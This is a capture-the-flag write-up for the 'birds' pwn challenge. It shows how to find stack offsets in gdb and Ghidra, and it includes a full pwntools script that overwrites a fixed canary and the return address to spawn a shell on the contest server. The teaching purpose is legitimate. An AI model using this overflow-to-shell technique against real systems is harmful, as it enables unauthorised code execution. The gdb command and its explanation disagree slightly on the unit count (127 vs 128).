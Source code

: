 ##### pwn challenge
Required Tools: 
- checksec
- gdb debugger
- Linux operating system or Windows Subsystem for Linux (WSL)
- pwntools

For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.

### 1.  Finding all of our needed offsets
- We will use gdb to debug the **birds** executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.
- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command **disas main** 
![main dissassembly](main%20disassembly.png)

We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction
```
(gdb) b *0x40125d
Breakpoint 1 at 0x40125d                                                                                                                               
(gdb) b *0x401285
Breakpoint 2 at 0x401285 
```

If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.

After analyzing the executable, we find **main** in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main
![ghidra-1](ghidra-1.png)

While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.

Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra
 ![win disassembly](win%20disassembly.png)
It appears that the system call in **win** happens at 0x4011e6 in memory. And we can verify this in ghidra by finding **win** in the Symbol Tree
![win breakpoint](win%20breakpoint.png)

**WATCH OUT!**

If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably. 

From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with **0x4011dc** , which will bring us right to our shell system call.
![Assembly Preparation](Assembly%20Preparation.png)

Ok, so now it's time to run birds with the breakpoints we have set. 
1. On our first breakpoint, we are trying to determine the distance between the buffer and the canary
2. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.

When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.

Feel free to copy/paste

```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ```

Once you press enter, you will be stopped at our first breakpoint. 

At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:
**x/127wx $rsp**
![stack-screenshot](stack-screenshot.png)
- Lets break down the above GDB command:
	- x/ -> examine -> used to inspect memory
	- 128 -> Specifies the number of units to examine, in this case, 128 units
	- w -> Stands for "word", which means each unit is 4 bytes / 32 bits
	- x -> Specifies the format, which in this case is hexadecimal
	- $rsp Refers to the stack pointer register
	- All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)

Since each group of data displayed here is 4 bytes, we can tell that there are **12 bytes of data** in between the buffer and the canary

Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing **c**

Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command **stepi**, the next instruction will be where we are returning to, AKA the return address of main.

If we run the command **info stack frame**, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.
![RIP Contents](RIP%20Contents.png)

We found that the return address is 8 bytes away from the canary!

![stack-screenshot-Highlights](stack-screenshot-Highlights.png)

We now know everything we need in order to write our pwntools script.

We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.

pwntools script:

```
from pwn import *

# -- PAYLOAD CREATION -- #
payload = b"A"*64
payload += b"B" * 12
payload += p32(0xDEADBEEF)
#payload += b"\xef\xbe\xad\xde" <- what the canary ends up as

payload += b"C" * 8
payload+= p64(0x00000000004011dc)
#payload += b"\xdc\x11\x40\x00\x00\x00\x00\x00" <- what the ret addr ends up as

print(payload)

# ---------------------- #


# EXECUTABLE CONNECTION #

# If you are connecting to a local process, use the below

#p = process('./birds')
#p.sendline(payload)
#p.interactive()

# If you are connecting to a remote server, use the below

target_host = "tjc.tf"
target_port = 31625

conn = remote(target_host, target_port)
conn.recvuntil("wrong!\n")
conn.sendline(payload)
conn.interactive()

# --------------------- #
```

Explanation of big -> little endian conversion

Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.

In little endian format, numbers to the right are more significant than numbers to the left.

For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.

gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.

However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. ![[big-little-endian.png]]

Putting the connection in interactive mode allows the user to run shell commands.#

